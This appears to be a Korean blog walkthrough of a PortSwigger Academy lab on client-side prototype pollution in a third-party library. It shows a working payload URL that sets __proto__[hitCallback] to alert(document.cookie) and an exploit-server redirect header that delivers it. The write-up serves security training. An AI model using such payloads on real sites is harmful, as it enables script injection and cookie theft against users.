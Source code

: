 ```yaml
---
layout: post
title: "Burp Academy-Prototype Pollution 세번째 문제:Client-side prototype pollution in third-party libraries"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, Prototype Pollution]
toc: true
---
```



# 개요
- 프로토타입 폴루션(Prototype Pollution, 프로토타입 오염) 취약점 문제이다. 
- 문제 주소: https://portswigger.net/web-security/prototype-pollution/finding/lab-prototype-pollution-client-side-prototype-pollution-in-third-party-libraries
- 프로토타입 폴루션 설명 주소
1. https://portswigger.net/web-security/prototype-pollution
2. https://portswigger.net/web-security/prototype-pollution/finding
- 난이도: PRACTITIONER (중간)

# 문제 설명

```
This lab is vulnerable to DOM XSS via client-side prototype pollution. This is due to a gadget in a third-party library, which is easy to miss due to the minified source code. Although it's technically possible to solve this lab manually, we recommend using DOM Invader as this will save you a considerable amount of time and effort.

To solve the lab:

1. Use DOM Invader to identify a prototype pollution and a gadget for DOM XSS.
2. Use the provided exploit server to deliver a payload to the victim that calls alert(document.cookie) in their browser.

This lab is based on real-world vulnerabilities discovered by PortSwigger Research. For more details, check out Widespread prototype pollution gadgets by Gareth Heyes.
```

# 취약점이 있는 곳 찾기 
이 문제부터는 `Dom Invader`를 사용할 필요가 있다. 자세한 설명은 [여기](https://portswigger.net/burp/documentation/desktop/tools/dom-invader){:target="_blank"}에 있다. 



`alert(document.cookie)` 를 실행하기 위해서 다음과 같이 만든다. 

```
https://0ab5005a046b393dc567ebbb00b1000a.web-security-academy.net/#__proto__[hitCallback]=alert%28document.cookie%29
```


![dom invader 켜기](/images/burp-academy-prototype-pollution-3-enable-dom-invader.png)

![dom invader](/images/burp-academy-prototype-pollution-3-enable-dom-invader-prototype-pollution.png)

![dom invader](/images/burp-academy-prototype-pollution-3-find-dom-invader-synk-processing.png)

![dom invader](/images/burp-academy-prototype-pollution-3-find-dom-invader-synk-result.png)

![dom invader](/images/burp-academy-prototype-pollution-3-find-dom-invader-synk.png)

![dom invader](/images/burp-academy-prototype-pollution-3-test-payload.png)


헤드는 다음과 같다. 
```
HTTP/1.1 302 OK
Content-Type: text/html; charset=utf-8
Location: https://0ab5005a046b393dc567ebbb00b1000a.web-security-academy.net/#__proto__[hitCallback]=alert%28document.cookie%29
```


